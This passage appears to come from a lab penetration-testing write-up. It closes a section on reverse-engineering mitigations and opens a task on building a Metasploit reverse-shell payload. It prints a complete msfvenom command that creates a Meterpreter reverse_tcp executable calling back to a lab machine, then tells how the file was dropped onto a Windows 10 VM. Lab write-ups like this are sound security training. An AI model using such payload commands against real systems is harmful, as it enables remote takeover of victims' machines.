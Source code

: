 -   Obfuscate executable code to hinder reverse engineering.

-   Use code signing to verify the integrity of executables.

-   Restrict access to sensitive executables and monitor for
    unauthorized analysis.

**Tools Used**

-   PE Explorer

---

# Task 3: Create a Metasploit Payload and Establish a Reverse Shell

**Attack Name**: Reverse Shell Exploitation

**Severity**: Critical

**Reason**: A reverse shell grants full control over a target system,
enabling file access, command execution, and potential privilege
escalation, posing a severe threat if exploited maliciously.

**Steps Taken**

1.  On my Kali Linux machine (IP: 192.168.56.109), I ran: `msfvenom -p
    windows/meterpreter/reverse_tcp LHOST=192.168.56.109 LPORT=4444 -f
    exe -o bad.exe` to create a reverse shell payload.

> ![shot](SHOTS/media/image15.png)

2.  On my KALI vm, I dropped bad.exe to the E: drive (E:\\PAYLOAD) on the Windows 10 using a shared folder.
